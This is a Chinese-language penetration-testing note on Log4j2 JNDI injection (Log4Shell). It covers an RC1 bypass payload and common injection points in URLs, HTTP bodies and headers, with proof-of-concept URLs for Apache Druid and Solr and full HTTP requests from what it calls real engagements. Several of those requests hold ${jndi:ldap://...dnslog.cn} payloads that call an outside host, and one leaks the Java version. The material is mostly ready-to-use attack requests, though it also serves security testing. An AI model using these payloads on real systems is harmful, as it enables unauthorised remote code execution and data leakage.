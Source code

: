 

# 0x04 RC1绕过
- [Apache Log4j2从RCE到RC1绕过 @4ra1n](https://xz.aliyun.com/t/10649)


payload如下，在之前的基础上加个空格：
```
${jndi:ldap://127.0.0.1:1389/ badClassName}
```

# 0x05 常见漏洞位置
## URL
- URL路径
    - 🌰 Apache Druid的POC：`http://example.com/druid/coordinator/v1/lookups/config/${jndi:ldap://xxxx.dnslog.cn/test}`
- URL参数
    - 🌰 Apache Solr的POC：`http://example.com/solr/admin/cores?action=${jndi:ldap://xxxx.dnslog.cn/test}`

## HTTP Body
- 可能存在漏洞的功能点：登录、业务流程、审批接口等。
- 可能存在不同的请求格式：例如Form、Json、XML等。
- 可能会对参数进行编码、加密等操作，加大检测难度。

🌰 登录口 - Form格式
```
POST /zkaq/log4jrce HTTP/1.1
Host: d63bb2586.lab.aqlab.cn
Connection: close

username=${jndi:ldap://xxxx.dnslog.cn/def}&password=123456
```
 
🌰 某次实战案例 - json格式
    
```
POST /xxx/xxxx HTTP/1.1
Host: xx.xx.xx.xx
Connection: close
Content-Length: 153
Content-Type: application/json

{"type":"delete","se":{"runningSessions":[],"bUrl":"${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}"}}
```

## Header
- 可能存在漏洞的Header字段：X-Forworded-For、Accept、User-Agent等
- 也有部分框架中的Log4j漏洞存在于Header中
    - [Struts2框架，header中的`If-Modified-Since`字段存在该漏洞](https://twitter.com/payloadartist/status/1469987703429103622)
    - 🌰 某次实战案例 - Accept字段
```
POST /aaa/bbbb HTTP/1.1
Host: xx.xx.xx.xx
Accept: ${jndi:dns://xxxx.dnslog.cn/test}
Content-Type: application/json
Connection: close

{
"username"="admin",
"password"="123456"
}
```